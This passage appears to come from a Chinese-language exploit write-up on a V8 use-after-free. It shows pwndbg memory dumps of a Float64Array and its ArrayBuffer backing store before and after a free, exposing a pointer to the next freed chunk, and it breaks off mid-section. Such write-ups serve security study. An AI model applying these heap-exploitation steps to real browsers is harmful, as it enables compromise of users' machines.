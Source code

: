 
free前：

```
uaf -- Float64Array:

pwndbg> x/30gx 0x068c080a2ae8
0x68c080a2ae8:	0x080406e908201ac1	0x080a2aa1080411a9
0x68c080a2af8:	0x0000000000000000	0x0000000000000008
0x68c080a2b08:	0x0000000000000001	0x000032959cc04010 => data_ptr
0x68c080a2b18:	0x0000000000000000	0x0000000000000000
0x68c080a2b28:	0x0804035d00000000	0x0000747474747474
0x68c080a2b38:	0x080406e908200dc9	0x00000008080406e9
0x68c080a2b48:	0x0000000000000000	0x0000000000000000

uaf -- ArrayBuffer:

pwndbg> x/30gx 0x068c080a2aa0
0x68c080a2aa0:	0x080406e908200dc9	0x00000008080406e9
0x68c080a2ab0:	0x9cc0401000000000	0x0dadbc0000003295
0x68c080a2ac0:	0x00000002000019d2	0x0000000000000000
0x68c080a2ad0:	0x0000000000000000	0x0000001008040489
0x68c080a2ae0:	0x0000747474747474	0x080406e908201ac1
0x68c080a2af0:	0x080a2aa1080411a9	0x0000000000000000
0x68c080a2b00:	0x0000000000000008	0x0000000000000001
0x68c080a2b10:	0x000032959cc04010 => backing store	0x0000000000000000
0x68c080a2b20:	0x0000000000000000	0x0804035d00000000
0x68c080a2b30:	0x0000747474747474	0x080406e908200dc9
0x68c080a2b40:	0x00000008080406e9	0x0000000000000000
0x68c080a2b50:	0x0000000000000000	0x0000000300000000
0x68c080a2b60:	0x0000000000000000	0x0000000000000000

backing store:

pwndbg> x/30gx 0x000032959cc04010
0x32959cc04010:	0x0000747474747474	0x0000000000000000
0x32959cc04020:	0x3040c09c95320000	0x0000000000000000
0x32959cc04030:	0x4040c09c95320000	0x0000000000000000
0x32959cc04040:	0x5040c09c95320000	0x0000000000000000
```

free后：
```
pwndbg> x/30gx 0x000032959cc04010
0x32959cc04010:	0x2040c09c95320000	0x0000000000000000
0x32959cc04020:	0x3040c09c95320000	0x0000000000000000
0x32959cc04030:	0x4040c09c95320000	0x0000000000000000
```
可以看到出现了我们想要的大端序指向下一个freed块的指针。之后我们将它放入Old Space：

```
uaf -- Float64Array:

pwndbg> x/30gx 0x068c08300e90
0x68c08300e90:	0x080406e908201ac1	0x0830d7d5080411a9
0x68c08300ea0:	0x0000000000000000	0x0000000000000008
0x68c08300eb0:	0x0000000000000001	0x000032959cc04010
0x68c08300ec0:	0x0000000000000000	0x0000000000000000
0x68c08300ed0:	0x08201f4900000000	0x080406e9080406e9
0x68c08300ee0:	0x08300df90825f755	0x0804030d08300dd9
0x68c08300ef0:	0xfffffffc00000000	0x08300f510830d5e5
0x68c08300f00:	0x080406e908200301	0x081015c9080406e9
0x68c08300f10:	0x0810049908300f1d	0x082025d900043ee1

uaf -- ArrayBuffer:

```